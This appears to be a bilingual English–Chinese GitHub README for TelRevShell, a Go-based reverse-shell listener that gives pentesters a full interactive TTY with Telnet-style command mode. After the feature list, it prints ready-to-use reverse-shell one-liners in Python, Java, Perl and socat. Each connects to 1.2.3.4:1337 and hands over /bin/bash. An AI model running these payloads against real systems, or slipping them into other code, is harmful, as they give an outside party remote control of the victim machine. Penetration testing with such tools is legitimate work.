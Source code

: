 # TelRevShell

🚀 一个类 Telnet 风格的 交互式反弹Shell 服务端，支持交互控制、命令模式和跨平台运行，基于 Go 编写。

🚀 A telnet-style interactive reverse shell server with escape command mode, cross-platform support, and interactive terminal control – built with Go

---

## Features / 功能特点:

- 🖥️ Cross-platform support (Linux, Windows, macOS) / 跨平台支持
- ⌨️ Interactive terminal with raw mode handling / 原生终端交互体验
- 🎛️ Escape key based command-mode (Ctrl+]) / 支持类 Telnet 快捷键命令模式（Ctrl+]）
- 🔄 Auto-reconnect and force-exit support / 支持断开重连与强制退出操作

---

If you encounter the following problems during pentesting / 如果你在渗透测试时遇到这些问题

- Some commands, like `apt` and `ssh` require a proper terminal to run / 一些指令像 `apt` 和 `ssh` 需要一个真终端才能运行.
- STDERR usually isn’t displayed / 看不到STDERR
- Can’t properly use text editors like `vim` / 不能使用vim等编辑器
- No tab-complete / 没有Tab补全
- No up arrow history / 不能使用PgUP查看历史指令
- No job control / 没有Job Control
- No color / 没有颜色

## When traditional reverse shells fail you... / 当传统反连Shell不够用时...

In many real-world pentesting scenarios, you end up getting back a very limited or *dumb shell*. These shells often lack interactivity and have broken terminal behaviors.

在真实的渗透测试中，我们常常只能拿到一个非常“原始”的 *哑shell*。这些shell通常交互性差，终端行为异常。

For example:

- `nc` listener doesn't support terminal input signals, so you can't use `Ctrl+C` or `Ctrl+Z`
- `nc`监听时不支持输入信号，无法 `Ctrl+C`、`Ctrl+Z` 终止程序或挂起后台任务

- `socat` sometimes fails to release the port when forcefully terminated, causing `bind: address already in use` errors on restart
- `socat` 一旦强行结束后会出现端口未释放问题，重启时显示 `bind: address already in use`

- You may end up killing your listener or locking yourself out if the shell crashes
- 一旦远程Shell崩溃，你可能直接断连且端口仍被占用，无法恢复监听

---

## TelRevShell tries to fix that / 本工具正是为了解决这些问题而设计的

**TelRevShell** is a Go-based reverse shell listener/server that behaves like Telnet, offering a persistent, interactive terminal interface.

**TelRevShell** 是一个类Telnet风格的反向Shell服务器，使用Go编写，支持「持久连接 + 真终端 + 命令控制」。

- A full TTY experience (arrow keys, colors, editors like `vim`)
  - 全TTY体验（方向键、颜色、支持`vim`等编辑器）

- Ctrl+C works (SIGINT forwarded)
  - 支持 `Ctrl+C` 发送SIGINT中断

- Escape key command-mode (`^]`) lets you drop into control
  - 快捷键 `Ctrl+]` 进入命令模式，可随时查看状态或安全退出

- Clean shutdown and reconnect logic
  - 支持清理退出，优雅等待客户端重连

- Port reliably released after disconnection
  - 解除绑定后端口自动释放，无需手动kill进程

---

## interactive revshell examples / 交互式反弹shell样例

Python3: 

```python3
import socket,subprocess,os,pty;s=socket.socket();s.connect(("1.2.3.4",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")
```

Java:

```java
import java.io.*;import java.net.*;class R{public static void main(String[] a)throws Exception{Socket s=new Socket("1.2.3.4",1337);Process p=new ProcessBuilder("/bin/bash").redirectErrorStream(true).start();InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);}}}
```

Perl:

```perl
use Socket;$i="1.2.3.4";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};
```

Socat:

```bash
socat TCP:1.2.3.4:1337 EXEC:"/bin/bash",pty,stderr,sigint,sane
```

